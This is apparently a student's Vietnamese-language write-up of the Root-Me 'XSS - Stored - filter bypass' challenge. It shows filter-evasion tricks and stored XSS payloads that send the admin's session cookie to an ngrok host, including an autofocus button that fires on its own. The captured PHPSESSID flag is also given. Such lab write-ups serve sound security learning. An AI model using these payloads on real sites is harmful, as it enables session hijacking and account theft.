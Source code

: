 # Challenge: XSS - Stored - filter bypass
## Người làm:   
    Nguyễn Ngọc Trưởng - 19522440
    Thời gian: 180 phút
## Link: 
    https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-filter-bypass

- Mở đầu ta thử lưu câu lệnh `<h1>Nguyễn Ngọc Trưởng</h1>`, ta thấy nội dung lưu có định dạng của thẻ h1
<p align="center"><img src="./images/8.1.png"></p>

- Tiếp tục thử lưu `<h1 onclick=alert(1)>Nguyễn Ngọc Trưởng 2</h1>` --> Hacker detected!

- Để khắc phục ta thử với `<h1 onclick=(alert)(1)>Nguyễn Ngọc Trưởng 2</h1>` thì thấy đã thực hiện được lệnh `alert(1)`
<p align="center"><img src="./images/8.2.png"></p>

- `<h1 onclick=(alert)(document.cookie)>Nguyễn Ngọc Trưởng</h1>` -->Hacker detected!

- Thử in ra thông báo với 1 chuỗi, ta nhập `<h1 onclick=(alert)("document")>Nguyễn Ngọc Trưởng 2</h1>` -->Hacker detected!
--> Ta có thể khác phục lỗi này bằng cách sử dụng các kí tự đặc biệt (chuyển " = `&quot;`)
https://www.htmlhelp.com/reference/html40/entities/special.html

`<h1 onclick=(alert)(&quot;document&quot;)>Nguyễn Ngọc Trưởng</h1>`
<p align="center"><img src="./images/8.3.png"></p>

- Thử thực hiện thêm chuỗi câu lệnh, thực hiện với content= `<h1 onclick=(alert)(&quot;Lệnh1&quot;);(alert)(&quot;document&quot;)>Nguyễn Ngọc Trưởng</h1>`, khi đó ta thấy được 2 thông báo --> ta có thể chèn nhiều câu lệnh

- Vì ta không thể in ra cookie, có thể do từ khóa document bị lọc, mạnh dạng test với content = `<h1 onclick=doc=document;(alert)(doc.cookie)>Nguyễn Ngọc Trưởng</h1>` --> Ta cùng thực hiện được việc in ra cookie
<p align="center"><img src="./images/8.4.png"></p>

- Do vậy để thực hiện việc lấy cookie của admin, giống như những bài XSS Stored đã làm, ta cần thực hiện chèn được đoạn script sau
```
doc=document;
doc.location="http://dca6-113-161-73-246.ngrok.io/?cookie=".concat(doc.cookie)
```

- Chuyển đổi kí tự `"` ta được `doc=document;doc.location=&quot;http://dca6-113-161-73-246.ngrok.io/?cookie=&quot;.concat(doc.cookie)`
Khi đó content cần phải nhập là: `<h1 onclick=doc=document;doc.location=&quot;http://dca6-113-161-73-246.ngrok.io/?cookie=&quot;.concat(doc.cookie)>Hack</h1>`. 
<p align="center"><img src="./images/8.5.png"></p>

- Vì thuộc tính demo ban đầu là click nên yêu cầu chúng ta cần phải nhấn vào đường dẫn, ta sẽ dùng thuộc tính focus gồm autofocus và onfocus của thẻ button để có thể tự động thực hiện đoạn script: Khi đó ta nhập với content là:
<button autofocus onfocus=doc=document;doc.location=&quot;http://dca6-113-161-73-246.ngrok.io/?cookie=&quot;.concat(doc.cookie)>Nguyễn Ngọc Trưởng</button>
<p align="center"><img src="./images/8.6.png"></p>

- Chờ đợi kết quả ở máy chủ PHP, ta thấy được có 2 PHPSESSID của admin đã gởi 
<p align="center"><img src="./images/8.7.png"></p>

- Nộp lần lượt 2 PHPSESSID này vào challenge, ta thấy flag là PHPSESSID thứ 2 = `qa26f3ugb5tqv7o0mbvtv414u8`

## Kết quả flag là `qa26f3ugb5tqv7o0mbvtv414u8`